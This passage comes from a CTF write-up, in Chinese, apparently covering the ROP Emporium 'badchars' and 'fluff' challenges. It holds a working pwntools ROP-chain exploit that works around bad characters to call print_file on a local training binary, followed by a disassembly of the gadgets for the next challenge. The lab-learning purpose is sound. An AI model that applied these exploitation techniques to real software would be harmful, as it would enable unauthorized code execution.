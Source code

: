 payload:

```python
from pwn import *
context.log_level = 'debug'

io = process('./badchars')
elf = ELF('./badchars')

xor_r14r15 = 0x400628
add_r14r15 = 0x40062c
sub_r14r15 = 0x400630
mov_r12r13 = 0x400634
pop_r12r13r14r15 = 0x40069c
pop_r14r15 = 0x4006a0
pop_rdi = 0x4006a3
write_addr = 0x601030

badchars = 'xga.'

payload = b'b' * 40
payload += p64(pop_r12r13r14r15) + b'flbh/tyt' + p64(write_addr) + p64(1) + p64(write_addr + 2)		# a->b g->h .->/ x->y then just -1
payload += p64(mov_r12r13)
payload += p64(sub_r14r15)
payload += p64(pop_r14r15) + p64(1) + p64(write_addr + 3)
payload += p64(sub_r14r15)
payload += p64(pop_r14r15) + p64(1) + p64(write_addr + 4)
payload += p64(sub_r14r15)
payload += p64(pop_r14r15) + p64(1) + p64(write_addr + 6)
payload += p64(sub_r14r15)
payload += p64(pop_rdi) + p64(write_addr)
payload += p64(elf.plt['print_file'])

io.sendlineafter(b'> ', payload)

io.interactive()
```

# 6. fluff

这题和上题唯一的区别就是给的gadget不同。但是这个gadget可谓是花里胡哨。3个指令都不熟悉。查！

```
.text:0000000000400628 ; ---------------------------------------------------------------------------
.text:0000000000400628
.text:0000000000400628 questionableGadgets:
.text:0000000000400628                 xlat
.text:0000000000400629                 retn
.text:000000000040062A ; ---------------------------------------------------------------------------
.text:000000000040062A                 pop     rdx
.text:000000000040062B                 pop     rcx
.text:000000000040062C                 add     rcx, 3EF2h
.text:0000000000400633                 bextr   rbx, rcx, rdx
.text:0000000000400638                 retn
.text:0000000000400639 ; ---------------------------------------------------------------------------
.text:0000000000400639                 stosb
.text:000000000040063A                 retn
.text:000000000040063A ; ---------------------------------------------------------------------------
```
